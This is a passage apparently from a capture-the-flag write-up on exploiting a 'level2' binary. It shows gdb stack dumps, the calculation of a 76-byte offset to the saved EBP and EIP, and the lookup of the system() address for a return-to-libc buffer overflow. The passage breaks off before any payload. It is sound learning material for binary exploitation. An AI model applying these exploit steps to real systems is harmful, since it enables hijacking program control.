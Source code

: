 So the EBP is at 0xbffff728, lets print the top of the stack :

```
(gdb) x/100x $esp
0xbffff6c0:	0xbffff6dc	0x00000000	0x00000000	0xb7e5ec73
0xbffff6d0:	0x080482b5	0x00000000	0x00ca0000	0x41414141
0xbffff6e0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6f0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff700:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff710:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff720:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff730:	0x41414141	0x41414141	0x00414141	0xb7e454d3
0xbffff740:	0x00000001	0xbffff7d4	0xbffff7dc	0xb7fdc858
0xbffff750:	0x00000000	0xbffff71c	0xbffff7dc	0x00000000
0xbffff760:	0x08048260	0xb7fd0ff4	0x00000000	0x00000000
0xbffff770:	0x00000000	0x8dfb72f1	0xbabcd6e1	0x00000000
0xbffff780:	0x00000000	0x00000000	0x00000001	0x08048420
0xbffff790:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
0xbffff7a0:	0x00000001	0x08048420	0x00000000	0x08048441
0xbffff7b0:	0x0804853f	0x00000001	0xbffff7d4	0x08048550
0xbffff7c0:	0x080485c0	0xb7fed280	0xbffff7cc	0xb7fff918
0xbffff7d0:	0x00000001	0xbffff8fc	0x00000000	0xbffff915
0xbffff7e0:	0xbffff925	0xbffff939	0xbffff958	0xbffff96b
0xbffff7f0:	0xbffff977	0xbffffe98	0xbffffea4	0xbffffef1
0xbffff800:	0xbfffff07	0xbfffff16	0xbfffff2c	0xbfffff3d
0xbffff810:	0xbfffff46	0xbfffff5d	0xbfffff65	0xbfffff74
0xbffff820:	0xbfffffa1	0xbfffffc1	0x00000000	0x00000020
0xbffff830:	0xb7fdd418	0x00000021	0xb7fdd000	0x00000010
0xbffff840:	0x178bfbff	0x00000006	0x00001000	0x00000011
```

We can see our buffer start at 0xbffff6d0 + 12


Simple math :


```
(gdb) p/d 0xbffff728 - (0xbffff6d0 + 12)
$5 = 76
```

The EBP start at 76, and the EIP at 80



System() adress :

```
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level2/level2 
aAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
aAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa

Breakpoint 1, 0x0804853d in p ()
(gdb) p system
$6 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
